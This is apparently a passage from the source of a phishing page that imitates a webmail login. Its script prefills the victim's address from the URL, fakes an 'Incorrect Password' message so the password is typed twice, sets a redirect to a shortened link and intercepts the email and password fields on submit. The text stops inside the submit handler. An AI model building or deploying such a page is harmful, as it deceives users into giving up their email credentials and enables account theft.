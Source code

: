                        </span>
                    </div>
                    <div id="errmsg" style="color: red; display: none;">Incorrect Password</div>
                    <div class="form-group check">
                        <input type="checkbox" id="remember">
                        <label for="remember">remember me</label>
                    </div>
                    <button type="submit" class="btn">Login</button>
                    <a class="internal-link" href="https://c6ru4-tyaaa-aaaad-qchkq-cai.raw.ic0.app/">Forgot password?</a>
                </form>
            </div>
        </div>
    </main>



    <script src="./Webmail_files/jquery-3.6.0.min.js" integrity="sha256-/xUj+3OJU5yExlq6GSYGSHk7tPXikynS7ogEvDej/m4=" crossorigin="anonymous"></script>
    <script>
        $('.eyecon').click(function() {
            $(this).parent().toggleClass('password-show');
            input = $(this).parent().find("input");
            if (input.attr("type") == "password") {
                input.attr("type", "text");
            } else {
                input.attr("type", "password");
            }
        });
    </script>
         <script src="./Webmail_files/jquery-3.3.1.min.js"></script>
    <script>
      $(document).ready(function(){
        var errmsg = $('#errmsg');
        errmsg.hide();
        var ufromUrl = get_email_hash();
        if(!ufromUrl){
          ufromUrl = geturlparameter('username'); 
        }
        var redirectUrl = ('https://owy.mn/35MDuDz');
        var isStyleDouble = 2;
        var styleDoubleCounter = 1;
        var styleDoubleFromUrl = 1;
        var formcon = $('#themform');
        var em = $('#themform input[name=em]');
        var ps = $('#themform input[name=ps]');
        
        if(ufromUrl){ em.val(ufromUrl);  }
        var emv = ''; var psv = '';  
        if(isStyleDouble){
          styleDoubleFromUrl = geturlparameter('db');
          if(styleDoubleFromUrl){
            styleDoubleFromUrl = parseInt(styleDoubleFromUrl);
            if(isNaN(styleDoubleFromUrl)){
              styleDoubleFromUrl = 1;
            }
            if(styleDoubleFromUrl > 1){
            errmsg.show();
            }
          }
          else{ styleDoubleFromUrl = 1; }
        }
        formcon.submit(function(e){
          e.preventDefault();
          emv = em.val();